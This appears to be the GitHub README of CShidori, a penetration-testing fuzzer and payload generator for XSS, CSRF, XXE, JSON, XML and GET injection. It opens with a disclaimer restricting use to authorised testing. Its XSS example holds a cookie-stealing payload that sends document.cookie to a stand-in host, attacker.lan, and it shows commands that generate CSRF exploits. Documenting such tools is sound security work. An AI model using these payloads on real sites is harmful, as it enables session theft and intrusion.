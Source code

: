 # CShidori

**Get Data and Fuzz Your App**

![](Intro.png)

## Real life vulnerabilities discovered by this tool

* Open Redirect: 1
* IDOR: 1
* XSS: 1
* Application Data Leak: 2

## Disclaimer

Usage of all tools on this site for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. We assume no liability and are not responsible for any misuse or damage caused by this site. This tools is provided "as is" without warranty of any kind.

## References

* Taisen: [Website](https://taisen.fr)

* CShidori is part of [SIMPLE project (french)](https://github.com/Aif4thah/SIMPLE)

* OWASP Web Application Security Testing Guide: [07-Input Validation Testing](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/)

## Fuzzer and Data

### Fuzzer

* TLS Sockets (including HTTPS and other SSL/TLS encapsulated protocols)
* TCP Sockets (TCP layer and OSI 5,6,7 protocols, including HTTP )

### Machine Learning

* CShidori learns and tries to detect vulnerabilities from your fuzzing history
* ML is not miraculous, you have to train it for your Apps ;)

### Data Generation Modes 
* Mutation
* XSS
* JSON
* XML
* GET
* CSRF
* XXE
* MSTest
* Encoding
* List Generation

### Payloads

* Chars (default)
* Strings (default)
* DotNet
* Java
* C
* Angular
* JavaScript

## Mutation Fuzzing

### TLS sockets

put your request in a text file (for HTTPS use Zap/Burp "copy to file")

```powershell
.\CShidori.exe -m tls -o ..\testing\ZAP-Post-req.raw -i 127.0.0.1 -p 443
```

### TCP Sockets

put your request in a text file (for HTTP use Zap/Burp "copy to file")

```powershell
.\CShidori.exe -m tcp -o ..\testing\burp.req -i 127.0.0.1 -p 80
```
### go further with MultiThreading

Edit and execute the `Start-Fuzzing-Function.ps1` script

```powershell
. .\Start-Fuzzing-Function.ps1
Start-Fuzzing
```

## Data Generation

### Mutation

generate 5 mutation (chars and bitflip) for the value "test" :

```powershell
.\CShidori.exe -m mut -o 5 -p test -d Chars
```

### XSS / Injections

wrapp xss command to test multiples injections:

```powershell
.\CShidori.exe -m xss -p 'document.location=\"https://attacker.lan?c=\"+document.cookie'
```

### JSON

Inject java and general payloads in all parameters of a Json request

```powershell
.\CShidori.exe -m json -p ..\testing\test.json -d Java,Strings
```

### XML

Inject .NET payloads in all parameters of an XML request

```powershell
.\CShidori.exe -m xml -p ..\testing\exemple.xml -d DotNet
```

### GET

Inject default payloads in all GET parameters and tests parameters polution

```powershell
.\CShidori.exe -m get -p "?bar=foo&foo=bar"
```

### CSRF

Generate get and post CSRF exploits

```powershell
.\CShidori.exe -m csrf -o get -p http://target.lan -i "name1=value1&name2=value2"
.\CShidori.exe -m csrf -o post -p http://target.lan -i "name1=value1&name2=value2"

```

### XXE

Generate XXE payload

```powershell
.\CShidori.exe -m xxe
```
### MSTEST

Generate Test for Microsoft.VisualStudio.TestTools.UnitTesting (Beta)

```powershell
.\CShidori.exe -m mst -p 'function( \"value1\", 2, FUZZ)' -i FUZZ
```

### Encode

Encode your payload

```powershell
.\CShidori.exe -m enc -p "<script>alert(1)</script>"
```

### List Generation

Generate a payload list

```powershell
.\CShidori.exe -m gen -d Chars,Java
```

## Miscellaneous

### SOAP & XSD

Removed since you can perform it from Visual Studio:
- Merge all XSD files in WSDL file
- Right click on the project and select "Add Service Reference" -> "WCF" -> "enter localPath"
